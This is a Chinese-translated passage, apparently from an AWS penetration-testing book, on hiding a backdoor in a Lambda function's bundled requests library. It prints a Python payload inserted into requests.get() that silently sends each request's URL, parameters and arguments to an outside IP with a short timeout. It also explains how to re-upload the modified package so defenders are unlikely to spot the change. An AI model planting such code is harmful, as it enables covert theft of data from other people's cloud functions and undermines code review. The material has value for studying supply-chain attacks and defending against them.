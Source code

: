 这是你可以发挥创造力的地方。显然，添加到将数据发送到随机 IP 地址的函数中的随机代码对于熟悉该代码并正在重新查看该代码的任何人来说都是可疑的。在这种情况下，甚至可能没有防御者发现的妥协迹象，但开发人员碰巧注意到 Lambda 函数中的这段奇怪代码，并就此提出了一个问题，然后你就被抓住了。在整个函数的开头，恶意代码会更加明显，就像我们想要的那样，因此将负载嵌套在代码中的某个位置会有一点帮助。

将有效负载放置在不会改变输入功能（`lambda_handler()`中的任何内容，并且手动审查/发现的可能性极低的地方，怎么样？听起来好得难以置信，但事实并非如此！恶意黑客多年来一直在使用类似的技术，允许他们的软件/硬件后门在很长一段时间内保持活动状态，因此让我们将该技术应用于 Lambda，并保持警惕！

此技术涉及 Lambda 函数所依赖的后门依赖项。并不是所有您需要的库都包含在 Lambda 的库的基本集合中，正如我们在无法直接`import requests`时所看到的，因此开发人员被迫自己收集这些依赖项，并将它们与其余代码一起上传到 Lambda。我们将简短地看一个简单的例子。

假设我们无法导入带有`from botocore.vendored import requests`的`requests`库，我们需要在 Lambda 代码中包含该库。这可以通过将`requests`库与我们的基本 Lambda 代码放在一起，并将其作为`.zip`文件上传到 Lambda 来解决。

在本例中，我们有一个导入`requests`并向[发出请求的`lambda_function.py`文件 https://google.com/](https://google.com/) ，然后打印响应文本。`requests`库与它一起包含在整个库中，以便在下面的屏幕截图中第 2 行包含`import requests`代码。`requests`库还需要`chardet`、`urllib3`、`idna`和`certify`库，因此这些库包括：

![](Images/0ed9d39c-4529-40a5-b318-752f416e69eb.png)

使用包含的请求库的示例 Lambda 函数

这个函数很短，因此如果代码在我们的攻击过程中被直接修改，那么对任何人来说都是显而易见的，但是因为它正在导入`requests`库，而且`requests`库源代码也在那里，这将是我们的目标。我们可以看到，在第 4 行，`requests.get()`方法正在被调用。如果我们查看`requests`库的源代码，我们可以在`api.py`文件的第 63 行找到`requests.get()`方法（至少在撰写本文时）：

![](Images/292e3758-55b4-461a-b11a-ba9f58338ab2.png)

requests.get（）方法的源代码

我们已经知道，每次 Lambda 函数运行时都会调用此方法，因此我们需要做的只是直接修改它，而不是修改调用它的文件（`lambda_function.py`。这次我们的负载需要稍微不同，因为整个`requests`库不是直接导入`requests`库中的每个文件，所以我们必须使用`"request"`方法，而不是`requests.post()`。我们的有效载荷将如下所示：

```
try:
    data = {'url': url, 'params': params, **kwargs}
    request('POST', 'http://1.1.1.1', json=data, timeout=0.01)
except:
    pass
```

这个有效负载基本上只是在完成原始请求之前，对我们自己的服务器发出的每个请求的所有细节进行过滤。我们或许能够截获一些敏感数据，以发挥我们的优势。我们可以在`get`方法中正确放置我们的恶意渗出负载，如以下屏幕截图所示：

![](Images/30132e26-f6ca-417a-99b1-593714e5a6e2.png)

我们的有效负载放在 requests.get（）方法中

即使它看起来有点奇怪，也很少有开发人员会考虑查看他们包含的某个库的源代码，即使他们查看了，他们也没有编写该库，因此对他们来说，它可能并不一定那么奇怪。现在，每次调用这个 Lambda 函数时，`requests.get()`方法都会被调用，这意味着我们的负载将被执行，我们将过滤一些数据：

![](Images/bb406a51-c093-499e-86a9-96ad2b3c23ec.png)

成功地从 Python 依赖项中进行 Exfilter

我们现在已经成功地从 Lambda 函数中过滤出了信息，而没有修改主函数的任何实际代码。这种攻击也可以深入到很多层次。如果主 Lambda 函数需要库 X，而库 X 中的方法需要库 Y，那么您可以一直后门到库 Y。没有限制，只要您的方法以某种方式被调用。

在真实的攻击场景中，要做到这一点，您只需像前面一样将 Lambda 函数导出到一个`.zip`文件中，进行修改，然后将其作为该函数的最新版本重新上传。即使防御者看到功能被修改，他们也可能永远找不到您实现的后门。
